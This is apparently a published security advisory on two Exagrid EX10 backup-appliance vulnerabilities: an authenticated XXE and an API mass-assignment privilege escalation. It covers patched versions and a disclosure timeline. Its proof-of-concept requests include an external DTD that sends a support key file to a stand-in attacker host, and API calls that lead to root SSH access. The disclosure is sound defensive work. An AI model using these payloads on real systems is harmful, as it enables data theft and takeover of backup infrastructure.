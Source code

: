 # Exagrid: Multiple Vulnerabilities

## Vendor
- Exagrid

## Affected Products
- Exagrid EX10 7.0.1.P02

## Summary

Exagrid appliance is vulnerable to the following issues that could lead to privilege escalation or sensitive information disclosure.

* Authenticated XML External Entities Injection (CVE-2025-47184)
* Mass Assignment vulnerability in Exagrid APIs allowing privilege escalation (formerly CVE-2025-47185)

## Remediation/Mitigation

These issues were patched in Exagrid 6.4.0 P20, 7.0.1 P12, 7.2.0 P08. 

## Credit

These issues were found by Aditya Gujar of Atredis Partners.

## References

* https://www.exagrid.com/exagrid-products/exagrid-product-line/
* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-47184     

## Report Timeline

* 2025-04-28: Atredis Partners sent an initial notification to vendor, including a draft advisory.
* 2025-04-28: Atredis Partners requested a CVE ID from MITRE CNA.
* 2025-05-01: MITRE assigned  CVE-2025-47184 and CVE-2025-47185 for the vulnerabilities.
* 2025-05-02: Atredis Partners notified the vendor of the CVE assignment.
* 2025-08-11: Atredis Partners informed the vendor of intention to disclose the issues and asked for a status update.
* 2025-08-11: Vendor confirmed the issues were patched in Exagrid version updates 6.4.0 P20, 7.0.1 P12 and 7.2.0 P08.
* 2025-08-13: Atredis Partners discovered that the vulnerability CVE-2025-47185 was independently discovered by another researcher and was assigned CVE-2025-29556. 
* 2025-08-14: Atredis Partners asks for a link to the release notes.
* 2025-08-15: Atredis Partners publishes advisory ATREDIS-2025-0004.


## Technical Details

### Authenticated XML External Entities Injection (CVE-2025-47184)

External DTD processing is not disabled in the Exagrid appliance which results in XML External Entities Injection attack. 
The vulnerability can be used to read sensitive system files through verbose error messages.

```http
POST /init HTTP/1.1
Host: 10.0.0.1
Cookie: [redacted]
Content-Type: text/plain; charset=UTF-8
Content-Length: 419
Connection: keep-alive

<?xml version="1.0"?>
<!DOCTYPE data [<!ENTITY % remote SYSTEM "https://<attacker-domain>/call.dtd"> %remote;]>
<IsysMessage>
   <header>
      <p2pVersion major="1" minor="0"/>
      <messageVersion major="1" minor="0"/>
   </header>
   <body>
      <action>ListAssets</action>
      <status>0</status>
      <parameters>
      </parameters>
   </body>
</IsysMessage>
```
**XXE Payload Injected**

With the following file hosted on attacker server:

```xml
<!ENTITY % payload SYSTEM "file:///isys/work/security/support.key">
<!ENTITY % param1 "<!ENTITY &#37; send SYSTEM 'http://attacker-domain/%payload;'>">
%param1;
```
**`call.dtd` on Attacker Server**

The verbose errors from Exagrid server result in disclosure of system file contents.

```xml
<IsysMessage>
   <header>
      <p2pVersion major="1" minor="0" />
      <messageVersion major="1" minor="0" />
      <timeStamp rcvSecs="1744747957" retSecs="1744747957" />
   </header>
   <body>
      <action>commsResponse</action>
      <status>-1072496636</status>
      <parameters>
         <parameter>
            <detail>SERVLET: com.isys.ui.assets.InitServlet DETAIL: The format of the received message is incorrect. : createFromWireData: ERROR - XML FORMAT: Error on line 1 of document http://attacker-domain/[redacted]: The markup declarations contained or pointed to by the document type declaration must be well-formed.METHOD: doPost</detail>
         </parameter>
      </parameters>
   </body>
</IsysMessage>
```
**Verbose Error Discloses the File Contents**



### Mass Assignment vulnerability in Exagrid APIs allowing privilege escalation (formerly CVE-2025-47185)


The Security Officer role in Exagrid is responsible for handling security related settings of the appliance such as the Retention-Time-Lock (RTL), SSH keys, encryption etc.

As per Exagrid documentation, Administrators are restricted from creating new users with Security Officer role:

```
Note: With the introduction of ExaGrid Version 6.3, ExaGrid local users assigned the Admin role cannot create or modify ExaGrid local users assigned the Security Officer role and cannot accept or reject Security Requests.
```
**User Creation Restrictions**

It is possible for an Administrator to create a Security Officer user by manually setting the value of `group` parameter to `exagrid-sec-offs` role while creating a new user:

```http
POST /api/v1/sites/[redacted]/users HTTP/1.1
Host: 10.0.0.1
Cookie: [redacted]
Accept: application/json, text/plain, */*
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/json
Content-Length: 187
Connection: keep-alive

{"name":"testsec","description":"testing","password":"[redacted]","enabled":true,"group":"exagrid-sec-offs","passwordChange":false,"siteUuid":"[redacted]"}
```
**HTTP Request to Create Security Officer User**

```http
HTTP/1.1 201 
Date: Wed, 09 Apr 2025 20:25:58 GMT
Server: ExaGrid
Content-Security-Policy: frame-ancestors 'self'
X-Frame-Options: sameorigin
Cache-Control: max-age=600
X-UA-Compatible: IE=edge
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
```
**Successful User Creation**

The admin can then add a SSH key to the `root` user which would need approval from a Security Officer:

```http
POST /api/v1/sites/[redacted]/users/root/sshKeys HTTP/1.1
Host: 10.0.0.1
...snip...

{"key":"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCu+[redacted]","enable":true}
```
**Adding SSH Key**

The SSH Key can then be approved using the Security Officer's credentials to gain SSH access to the appliance.

```bash
ssh -i exassh root@10.0.0.1

+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
 WARNING:
 Support functions are for ExaGrid Support Representatives only.
 Non-support personnel using support functions risk invalidating their
 system warranty and losing data.
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

Build: 7.0.1.P02 (official build 34.0.2.443 g5e13ada3deb exagridbuild@linuxbuild007)
Platform: 8.10.2024.1002-33.0.s103.4 on 010TSK23 (EX-AVTA244610581)
Server: EXAGRIDTEST [10.0.0.1]

Last login: Thu Apr  3 15:13:25 2025 from 10.0.0.2
Time: 20:27:46 up 6 days, 18:03, 3 users, load average: 0.04, 0.05, 0.00

[root@EXAGRIDTEST ~]# 

```
**Successful SSH Access**
